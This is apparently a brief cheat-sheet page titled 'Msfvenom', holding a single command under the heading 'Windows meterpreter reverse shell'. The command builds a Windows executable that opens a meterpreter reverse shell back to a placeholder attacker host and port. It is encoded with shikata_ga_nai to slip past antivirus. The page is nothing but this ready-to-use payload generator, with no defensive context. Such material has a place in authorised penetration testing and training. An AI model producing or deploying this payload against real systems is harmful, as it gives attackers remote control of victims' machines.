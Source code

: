 ```yaml
---
title: Msfvenom 🕸️
---
```

## Windows meterpreter reverse shell

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe
```

